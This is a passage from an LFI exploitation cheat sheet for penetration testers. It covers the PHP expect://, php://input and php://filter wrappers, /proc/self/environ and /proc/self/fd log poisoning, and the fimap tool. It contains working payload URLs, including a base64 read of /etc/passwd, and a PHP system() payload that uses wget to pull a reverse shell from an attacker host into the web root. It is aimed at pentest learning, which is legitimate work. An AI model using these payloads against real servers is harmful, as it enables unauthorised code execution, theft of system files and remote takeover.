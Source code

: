 ### PHP Wrapper expect:// LFI[](https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-expect-lfi)

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

```bash
http://127.0.0.1/fileincl/example1.php?page=expect://ls
```

Below is the error received if the PHP expect wrapper is disabled:

```php
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
```

---

### PHP Wrapper php://file[](https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfile)

Another PHP wrapper, `php://input` your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.

![LFI php://file hackbar](https://highon.coffee/img/blog/web-for-penetration-testers/lfi-php-file-hackbar-pentesters-labs.png)

Example:

```bash
http://192.168.183.128/fileincl/example1.php?page=php://input
```

Post Data payload, try something simple to start with like: `<? system('uname -a');?>`

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

```bash
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
```

After uploading execute the reverse shell at `http://192.168.183.129/shell.php`

---

### PHP Wrapper php://filter[](https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter)

Another PHP wrapper, `php://filter` in this example the output is encoded using base64, so you’ll need to decode the output.

```bash
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

---

### /proc/self/environ LFI Method[](https://highon.coffee/blog/lfi-cheat-sheet/#procselfenviron-lfi-method)

If it’s possible to include `/proc/self/environ` from your vulnerable LFI script, then code execution can be leveraged by manipulating the `User Agent` parameter with Burp. After the PHP code has been introduced `/proc/self/environ` can be executed via your vulnerable LFI script.

---

### /proc/self/fd/ LFI Method[](https://highon.coffee/blog/lfi-cheat-sheet/#procselffd-lfi-method)

Similar to the previous `/proc/self/environ` method, it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the `referer`.

This method is a little tricky as the proc file that contains the Apache error log information changes under `/proc/self/fd/` e.g. `/proc/self/fd/2`, `/proc/self/fd/10` etc. I’d recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB’s [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

---

## fimap LFI Pen Testing Tool[](https://highon.coffee/blog/lfi-cheat-sheet/#fimap-lfi-pen-testing-tool)

fimap is a [tool used on pen tests](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as `/proc/self/environ`. Another tool commonly used by pen testes to automate LFI discovery is Kali’s dotdotpwn, which works in a similar way.

---

### fimap + phpinfo() Exploit[](https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit)

Fimap exploits PHP’s temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.

Enjoy.